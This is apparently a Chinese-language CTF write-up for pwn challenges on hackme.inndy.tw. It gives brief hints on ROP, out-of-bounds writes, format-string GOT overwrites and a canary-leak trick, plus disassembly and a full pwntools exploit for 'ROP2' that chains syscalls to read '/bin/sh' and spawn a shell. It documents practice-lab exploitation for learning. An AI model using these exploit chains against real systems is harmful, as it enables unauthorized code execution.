 ```yaml
---
title: Writeup::hackme.inndy.tw
date: 2023-10-17 21:12:04
tags: pwn
---
```


## catflag
用pwntools 送出指令，不要用ncat
## homework
仔細觀察組語，可以發現return address的對應index

利用OOB直接就可以解

## toooomuch
猜數字遊戲，隨便一個二分搜就有答案
<!-- more -->
## toooomuch2
簡單的ROP，先利用 fgets()把shellcode吃到bss之後跳上去

## ROP
利用ROPGadget 就串得出來，也可以用 pop rdi 優化chain

## ROP2
### 保護機制
NX, Partial RELRO
### 程式邏輯
#### main
```asm
┌ 146: int main (int32_t arg_4h);
│           ; var int32_t var_33h @ ebp-0x33
│           ; var int32_t var_2fh @ ebp-0x2f
│           ; var int32_t var_2bh @ ebp-0x2b
│           ; var int32_t var_27h @ ebp-0x27
│           ; var int32_t var_23h @ ebp-0x23
│           ; var int32_t var_1fh @ ebp-0x1f
│           ; var int32_t var_1bh @ ebp-0x1b
│           ; var int32_t var_17h @ ebp-0x17
│           ; var int32_t var_13h @ ebp-0x13
│           ; var int32_t var_fh @ ebp-0xf
│           ; var int32_t var_bh @ ebp-0xb
│           ; var int32_t var_9h @ ebp-0x9
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_4h @ esp+0x54
│           0x08048487      8d4c2404       lea ecx, dword [arg_4h]
│           0x0804848b      83e4f0         and esp, 0xfffffff0
│           0x0804848e      ff71fc         push dword [ecx - 4]
│           0x08048491      55             push ebp
│           0x08048492      89e5           mov ebp, esp
│           0x08048494      51             push ecx
│           0x08048495      83ec34         sub esp, 0x34
│           0x08048498      83ec0c         sub esp, 0xc
│           0x0804849b      6a1e           push 0x1e                   ; 30
│           0x0804849d      e85efeffff     call sym.imp.alarm
│           0x080484a2      83c410         add esp, 0x10
│           0x080484a5      c745cd43616e.  mov dword [var_33h], 0x206e6143 ; 'Can '
│           0x080484ac      c745d1796f75.  mov dword [var_2fh], 0x20756f79 ; 'you '
│           0x080484b3      c745d5736f6c.  mov dword [var_2bh], 0x766c6f73 ; 'solv'
│           0x080484ba      c745d9652074.  mov dword [var_27h], 0x68742065 ; 'e th'
│           0x080484c1      c745dd69733f.  mov dword [var_23h], 0xa3f7369
│           0x080484c8      c745e1476976.  mov dword [var_1fh], 0x65766947 ; 'Give'
│           0x080484cf      c745e5206d65.  mov dword [var_1bh], 0x20656d20 ; ' me '
│           0x080484d6      c745e9796f75.  mov dword [var_17h], 0x72756f79 ; 'your'
│           0x080484dd      c745ed20726f.  mov dword [var_13h], 0x706f7220 ; ' rop'
│           0x080484e4      c745f1636861.  mov dword [var_fh], 0x69616863 ; 'chai'
│           0x080484eb      66c745f56e3a   mov word [var_bh], 0x3a6e   ; 'n:'
│           0x080484f1      c645f700       mov byte [var_9h], 0
│           0x080484f5      6a2a           push 0x2a                   ; '*' ; 42
│           0x080484f7      8d45cd         lea eax, dword [var_33h]
│           0x080484fa      50             push eax
│           0x080484fb      6a01           push 1                      ; 1
│           0x080484fd      6a04           push 4                      ; 4
│           0x080484ff      e81cfeffff     call sym.imp.syscall
│           0x08048504      83c410         add esp, 0x10
│           0x08048507      e848ffffff     call sym.overflow
│           0x0804850c      b800000000     mov eax, 0
│           0x08048511      8b4dfc         mov ecx, dword [var_4h]
│           0x08048514      c9             leave
│           0x08048515      8d61fc         lea esp, dword [ecx - 4]
└           0x08048518      c3             ret
```
跟上一題是差不多的邏輯，但多了`syscall()`

也可以在`overflow()`找到漏洞

### 利用方式
由於有`syscall`, 可以構造任意system call, 而且因為是x86, 所以不用找pop gadget

在binary中找不到`/bin/sh`, 所以可以先構造syscall把`/bin/sh`讀到記憶體中, 再想辦法getshell
#### exploit:
```python
#!/usr/bin/env python2

from pwn import *
import pwnlib.elf

p = remote('hackme.inndy.tw', 7703)
e = ELF('./rop2')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(3) + p32(0)
payload += p32(e.bss()) + p32(8) # syscall(3, 0, Bss, 8)

p.sendline(payload)
p.send('/bin/sh\x00')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(0xb) + p32(e.bss())
payload += p32(0) + p32(0) # syscall(0xb, '/bin/sh', 0, 0)
p.sendline(payload)

p.interactive()
p.close()
```
### echo
用`fmtstr_payload()`把 `printf()` 改成 `system()`
讓程式接著跑，她就會自己跑到`printf(“/bin/sh”)` 了
### smashthestack
有開canary，但是仍可以利用 `__stack_chk_fail` 印出在記憶體中的flag

構造長一點的payload，一路蓋到 `__libc_argv[0]` 就好